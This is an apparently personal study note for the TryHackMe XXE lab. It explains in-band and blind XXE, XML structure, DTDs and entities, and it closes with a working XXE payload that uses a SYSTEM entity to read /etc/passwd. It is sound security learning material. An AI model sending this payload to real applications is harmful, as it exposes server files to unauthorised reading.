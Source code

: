# TryHackMe: Complete Beginner (Supplements)

**author**:: Nathan Acks  
**date**:: 2021-12-09

## XXE

### Deploy the VM

I think I've basically done a different version of this room...

Anyways, two types of XML External Entity (XXE) attacks:

* IN-BAND attacks are where the attacker receives an immediate response.
* OUT-OF-BAND ("blind") attacks are when there is no immediate response and instead the attacker must receive the data indirectly (such as through a request to a second server under the attacker's control).

### eXtensible Markup Language

Some things to remember about XML documents:

* Start with the standard prolog: `<?xml version="1.0" encoding="UTF-8"?>`. This is not *technically* compulsory, but some parsers will barf if it's missing.
* Every XML document has one and *only* one root element.
* XML is case sensitive.

### DTD

The Document Type Definition defines/validates an XML document. For example, the DTD defined as

```dtd
<!DOCTYPE note [
	<!ELEMENT note (to,from,heading,body)>
	<!ELEMENT to (#PCDATA)>
	<!ELEMENT from (#PCDATA)>
	<!ELEMENT heading (#PCDATA)>
	<!ELEMENT body (#PCDATA)>
]>
```

validate the XML document

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note SYSTEM "note.dtd">  
<note>  
	<to>falcon</to>  
	<from>feast</from>  
	<heading>hacking</heading>  
	<body>XXE attack</body>  
</note>
```

The root node is defined immediately after the DOCTYPE declaration, with each ELEMENT declaration taking the form `element_name (contained_data)`. `#PCDATA` stands for "printable character data.

The DTD can also define multiple ENTITY types - `&amp;` and similar.

```xml
<!DOCTYPE userInfo [
	<!ENTITY name "feast">
]>
<userInfo>
	<firstName>falcon</firstName>
	<lastName>&name;</lastName>
</userInfo>
```

Conveniently, DTD can be defined *in line*, and not just by included files.

These last two features are what we will leverage to attack applications that accept XML inputs.

### XXE Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
	<!ENTITY read SYSTEM 'file:///etc/passwd'>
]>
<root>&read;</root>
```

The SYSTEM directive allows us to include other files... Possibly quite sensitive ones, depending on the permissions of our webserver and how good the application's input sanitization is.
